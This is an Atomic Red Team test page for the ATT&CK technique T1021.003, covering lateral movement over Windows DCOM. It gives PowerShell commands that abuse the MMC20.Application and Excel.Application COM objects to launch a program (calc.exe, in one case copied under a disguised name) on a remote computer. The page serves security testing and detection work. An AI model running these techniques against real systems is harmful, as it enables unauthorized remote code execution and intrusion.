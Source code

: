 # T1021.003 - Remote Services: Distributed Component Object Model
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/003)
<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote machines by taking advantage of Distributed Component Object Model (DCOM). The adversary may then perform actions as the logged-on user.

The Windows Component Object Model (COM) is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE). Distributed COM (DCOM) is transparent middleware that extends the functionality of COM beyond a local computer using remote procedure call (RPC) technology.(Citation: Fireeye Hunting COM June 2019)(Citation: Microsoft COM)

Permissions to interact with local and remote server COM objects are specified by access control lists (ACL) in the Registry.(Citation: Microsoft Process Wide Com Keys) By default, only Administrators may remotely activate and launch COM objects through DCOM.(Citation: Microsoft COM ACL)

Through DCOM, adversaries operating in the context of an appropriately privileged user can remotely obtain arbitrary and even direct shellcode execution through Office applications(Citation: Enigma Outlook DCOM Lateral Movement Nov 2017) as well as other Windows objects that contain insecure methods.(Citation: Enigma MMC20 COM Jan 2017)(Citation: Enigma DCOM Lateral Movement Jan 2017) DCOM can also execute macros in existing documents(Citation: Enigma Excel DCOM Sept 2017) and may also invoke [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002) (DDE) execution directly through a COM created instance of a Microsoft Office application(Citation: Cyberreason DCOM DDE Lateral Movement Nov 2017), bypassing the need for a malicious document. DCOM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047). (Citation: MSDN WMI)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PowerShell Lateral Movement using MMC20](#atomic-test-1---powershell-lateral-movement-using-mmc20)

- [Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object](#atomic-test-2---powershell-lateral-movement-using-excel-application-object)


<br/>

## Atomic Test #1 - PowerShell Lateral Movement using MMC20
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 6dc74eb1-c9d6-4c53-b3b5-6f50ae339673





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | localhost|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object
Powershell lateral movement using the Excel COM objects.

Reference:

https://posts.specterops.io/lateral-movement-abuse-the-power-of-dcom-excel-application-3c016d0d9922

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 505f24be-1c11-4694-b614-e01ae1cd2570





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Hostname or IP | string | localhost|
| user | Name of user | string | admin|


#### Attack Commands: Run with `powershell`! 


```powershell
copy c:\windows\system32\calc.exe 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","#{computer_name}"))
$com.ActivateMicrosoftApp("5")
```

#### Cleanup Commands:
```powershell
Remove-Item 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```




<br/>
